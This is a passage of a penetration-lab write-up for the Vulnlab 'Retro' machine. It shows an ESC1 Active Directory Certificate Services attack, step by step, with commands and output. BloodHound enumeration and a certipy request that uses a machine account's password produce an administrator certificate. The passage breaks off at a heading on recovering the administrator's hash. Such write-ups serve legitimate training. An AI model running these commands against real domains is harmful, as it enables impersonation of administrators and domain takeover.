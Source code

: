 Looking at the `20231219202428_Certipy.txt` we can see a ESC1 vunlerability related to the `RetroClients` certificate. 

<a href="https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/">More about ESC1</a>

Looking at the permissions of the certificate template we notice that it can be used only by:
- RETRO.VL\Domain Admins
- RETRO.VL\Enterprise Admins
- RETRO.VL\Domain Computers

I believe that the user `BANKING$` is within those groups so lets see:


```
syl@sylsec:~/vulnlab/Retro$ bloodhoundpy -dc retro.vl -u trainee -p trainee -d retro.vl
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Getting TGT for user
INFO: Connecting to LDAP server: retro.vl
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 7 users
INFO: Connecting to LDAP server: retro.vl
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: DC.retro.vl
INFO: Done in 00M 04S
```

Then I can query the user `BANKING$` and I can see its `First Degree Group Membership` that this user is part of the group `DOMAIN COMPUTERS`, so we can use that user to exploit the certificate and retrieve the NTLM hash of the administrator.

Lets retrieve the private key:

```
syl@sylsec:~/vulnlab/Retro$ certipy req -u 'BANKING$' -p 'Summer2018!' -dc-ip '10.10.64.243' -target 'dc.retro.vl' -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator' -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

# UnPAC the hash Method #1
